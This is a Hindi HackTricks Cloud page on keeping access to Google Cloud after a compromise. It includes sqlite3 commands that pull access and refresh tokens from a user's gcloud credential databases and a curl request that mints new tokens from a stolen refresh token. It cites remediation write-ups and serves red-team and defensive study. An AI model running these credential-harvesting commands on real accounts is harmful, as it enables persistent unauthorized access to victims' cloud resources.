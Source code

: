 # GCP - गैर-सेवा स्थायित्व

<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS रेड टीम विशेषज्ञ)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) में या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) **का अनुसरण करें**.
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग तरकीबें साझा करें.

</details>

ये उपयोगी तकनीकें हैं जब, किसी तरह, आपने GCP प्रमाणपत्रों या GCP वातावरण में चल रही किसी मशीन को समझौता किया है।

## टोकन हाइजैकिंग

### प्रमाणित उपयोगकर्ता

यदि आप GCP में **प्रमाणित उपयोगकर्ता** के होम फोल्डर तक पहुँचने में सफल होते हैं, तो **डिफ़ॉल्ट रूप से**, आप उस उपयोगकर्ता के लिए **जब तक चाहें टोकन प्राप्त कर सकेंगे** बिना प्रमाणित होने की आवश्यकता के और उस मशीन पर निर्भर किए बिना जिससे आप उसके टोकन का उपयोग कर रहे हैं और यहां तक कि अगर उपयोगकर्ता ने MFA कॉन्फ़िगर किया हो।

यह इसलिए है क्योंकि डिफ़ॉल्ट रूप से आप **नए टोकन उत्पन्न करने के लिए रिफ्रेश टोकन का उपयोग जितनी देर चाहें कर सकेंगे**।

उपयोगकर्ता के वर्तमान टोकन को प्राप्त करने के लिए आप चला सकते हैं:

{% code overflow="wrap" %}
```bash
sqlite3 ./.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
```
एक नया एक्सेस टोकन जनरेट करने के लिए विवरण प्राप्त करने के लिए चलाएं:
```
```bash
sqlite3 ./.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

नया ताज़ा एक्सेस टोकन प्राप्त करने के लिए रिफ्रेश टोकन, क्लाइंट आईडी, और क्लाइंट सीक्रेट के साथ निम्नलिखित चलाएं:

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
```markdown
{% endcode %}

रिफ्रेश टोकन की वैधता को **Admin** > **Security** > **Google Cloud session control** में प्रबंधित किया जा सकता है, और डिफ़ॉल्ट रूप से इसे 16 घंटे के लिए सेट किया गया है हालांकि इसे कभी न समाप्त होने के लिए सेट किया जा सकता है:

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

### सर्विस अकाउंट्स

प्रमाणित उपयोगकर्ताओं की तरह, यदि आप किसी सर्विस अकाउंट की **निजी कुंजी फ़ाइल को समझौता करने में सफल होते हैं**, तो आप आमतौर पर जितना चाहें उतने समय के लिए **उस तक पहुँच सकते हैं**।\
हालांकि, यदि आप सर्विस अकाउंट का **OAuth टोकन चुरा लेते हैं** तो यह और भी दिलचस्प हो सकता है, क्योंकि, यद्यपि डिफ़ॉल्ट रूप से ये टोकन केवल एक घंटे के लिए उपयोगी होते हैं, अगर **पीड़ित निजी API कुंजी को हटा देता है, तो OAuth टोकन तब तक मान्य रहेगा जब तक यह समाप्त नहीं हो जाता**।

### मेटाडेटा

स्पष्ट रूप से, जब तक आप GCP वातावरण में चल रही मशीन के अंदर हैं, आप **मेटाडेटा एंडपॉइंट से संपर्क करके उस मशीन से जुड़े सर्विस अकाउंट तक पहुँच सकते हैं** (ध्यान दें कि इस एंडपॉइंट में आप जो OAuth टोकन एक्सेस कर सकते हैं वे आमतौर पर स्कोप्स द्वारा प्रतिबंधित होते हैं)।

### उपचार

इन तकनीकों के लिए कुछ उपचार [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2) में समझाए गए हैं।

## संदर्भ

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें।
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह।
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में शामिल हों या मुझे **Twitter** 🐦 पर **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** को अपनी हैकिंग ट्रिक्स साझा करके [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करें।

</details>
```
